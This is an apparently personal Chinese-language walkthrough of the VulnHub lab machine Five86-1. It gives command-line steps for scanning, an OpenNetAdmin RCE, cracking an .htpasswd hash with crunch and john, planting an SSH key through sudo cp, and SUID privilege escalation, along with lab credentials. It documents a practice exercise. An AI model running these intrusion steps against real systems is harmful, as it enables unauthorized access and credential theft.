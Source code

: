 ```yaml
---
title: 'Five86-1'
disqus: hackmd
tags: vulnhub writeup
---
```


0. https://www.vulnhub.com/entry/five86-1,417/

1. 發現主機
```bash
netdiscover
```
![](https://i.imgur.com/8aapA1p.png)

得到服務 IP 192.168.43.137

2. 掃描弱點
```bash
nmap -A -T5 192.168.43.137 # -A 全面性 -T 越高越快
nmap -sT -A 192.168.43.137 # -sT TCP connect scan
```
![](https://i.imgur.com/3OpLe6X.png)
開放 22,80,10000 port，80 port 是個 opennetadmin, 10000 是 webmin

爆破
```bash
dirb http://192.168.43.137
```
有個 `/reports` 需要密碼，`/ona/`是 opennetadmin 管理頁面，版本 1.8

3. Exploit opennetadmin
```bash
searchsploit opennetadmin 
```
![](https://i.imgur.com/zX9qf2y.png)
使用第三個 RCE 成功
![](https://i.imgur.com/HNRXLe0.png)

4. .htaccess

apache 用 .htacess 來設定訪問權限

![](https://i.imgur.com/7XhjIhb.png)

查看 .htpasswd 拿到一組 password hash，存成 hash.txt

![](https://i.imgur.com/LUPYCt1.png)

找提示生成字典檔 `$ crunch 10 10 aefhrt -i wordlist.txt`

爆破 `john -w=wordlist.txt hash.txt` 得到帳密 douglas:fatherrrrr 

5. 寫 ssh key

用 douglas 登入後，查看能幹嘛
find by one & sudo -l
```
$ find / -user root -perm -4000 -print 2>/dev/null
$ find / -perm -u=s -type f 2>/dev/null
$ find / -user root -perm -4000 -exec ls -ldb {} \;
$ sudo -l
```
找到可以以 jen 身分用 /bin/cp

把 ssh public key 寫入 jen .ssh/authorized_keys 
```bash
@Magdalene$ ssh-keygen -b  2048
douglas@five86-1$ sudo -u jen /bin/cp ./authorized_keys /home/jen/.ssh/authorized_keys 
```
用 jen ssh login

6. 查看 mail

jen 登入後提示有新信件
```
$ mail
$ more
```
![](https://i.imgur.com/IrMT5b4.png)

用 moss:Fire!Fire 登入

7. 提權

一樣先 oneheart，發現奇怪的 upyourgame
![](https://i.imgur.com/5aHQf95.png)

跑完就拿 root

8. Pwned

![](https://i.imgur.com/DcWut5M.png)
